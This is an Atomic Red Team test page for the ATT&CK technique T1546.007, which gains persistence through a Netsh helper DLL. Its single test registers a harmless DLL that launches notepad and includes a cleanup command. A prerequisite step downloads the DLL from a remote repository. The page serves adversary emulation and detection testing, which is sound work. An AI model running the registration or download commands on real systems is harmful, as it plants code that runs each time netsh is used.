 # T1546.007 - Event Triggered Execution: Netsh Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/007)
<blockquote>

Adversaries may establish persistence by executing malicious content triggered by Netsh Helper DLLs. Netsh.exe (also referred to as Netshell) is a command-line scripting utility used to interact with the network configuration of a system. It contains functionality to add helper DLLs for extending functionality of the utility.(Citation: TechNet Netsh) The paths to registered netsh.exe helper DLLs are entered into the Windows Registry at <code>HKLM\SOFTWARE\Microsoft\Netsh</code>.

Adversaries can use netsh.exe helper DLLs to trigger execution of arbitrary code in a persistent manner. This execution would take place anytime netsh.exe is executed, which could happen automatically, with another persistence technique, or if other software (ex: VPN) is present on the system that executes netsh.exe as part of its normal functionality.(Citation: Github Netsh Helper CS Beacon)(Citation: Demaske Netsh Persistence)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Netsh Helper DLL Registration](#atomic-test-1---netsh-helper-dll-registration)


<br/>

## Atomic Test #1 - Netsh Helper DLL Registration
You can register a "helper dll" with Netsh as a persistance mechanism. The code in the dll is executed every time netsh.exe is called.
The NetshHelper.dll provided with the atomic will simply launch notepad when netsh.exe is run.

[Blog](https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html)
[Sample DLL code](https://github.com/outflanknl/NetshHelperBeacon)

**Supported Platforms:** Windows


**auto_generated_guid:** 3244697d-5a3a-4dfc-941c-550f69f91a4d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| helper_file | Path to DLL | path | PathToAtomicsFolder&#92;T1546.007&#92;bin&#92;NetshHelper.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
netsh.exe add helper "#{helper_file}"
taskkill /im notepad.exe /t /f > NUL 2>&1
```

#### Cleanup Commands:
```cmd
netsh.exe delete helper "#{helper_file}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Helper DLL must exist on disk at specified location (#{helper_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{helper_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1546.007/bin/NetshHelper.dll" -OutFile "#{helper_file}"
```




<br/>
